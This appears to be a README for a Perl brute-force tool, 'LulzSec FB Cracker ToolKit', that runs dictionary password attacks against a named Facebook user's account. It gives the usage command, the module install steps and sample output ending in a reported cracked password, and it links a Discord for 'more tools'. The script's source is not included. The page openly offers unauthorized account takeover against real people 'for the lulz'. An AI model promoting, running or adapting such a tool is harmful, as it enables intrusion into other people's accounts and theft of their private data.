 #######################################################
Join us for more tools : https://discord.gg/UUs8eb
#######################################################
Description:
LulzSec FB Cracker ToolKit Bruter V0.1 tool written in perl to perform a dictionary-based attack on a specific Facebook user,
through HTTPS.
 Only For The Lulz ;)
 Usage:
 perl LulzFBKill.pl email/id wordlist
 login could be either a users email address or profile name / Phone number / ID

 Module Requirements:
┌─[root@parrot]─[~]
└──╼ # apt clean
┌─[root@parrot]─[~]
└──╼ # apt update
 Install module if missing:
┌─[root@p arrot]─[~]
└──╼ # perl -MCPAN -e 'install Net::SSLeay'
#######################################################

 [+] Lulz Start Cracking THF-Targe using ID or EMail or Phone numnber ...

 [-] test -> Failed >> Check Your password List and Try agine
 [-] test123 -> Failed >> Check Your password List and Try agine
 [-] testtest -> Failed >> Check Your password List and Try agine
 [-] testest123 -> Failed >> Check Your password List and Try agine
 [-] qwerty -> Failed >> Check Your password List and Try agine
 [-] azerty -> Failed >> Check Your password List and Try agine
 [-] password -> Failed >> Check Your password List and Try agine
 [-] password123 -> Failed >> Check Your password List and Try agine
 
########################################################
 [+] Luulz!! Pass Cracked => Pass is ***********
########################################################
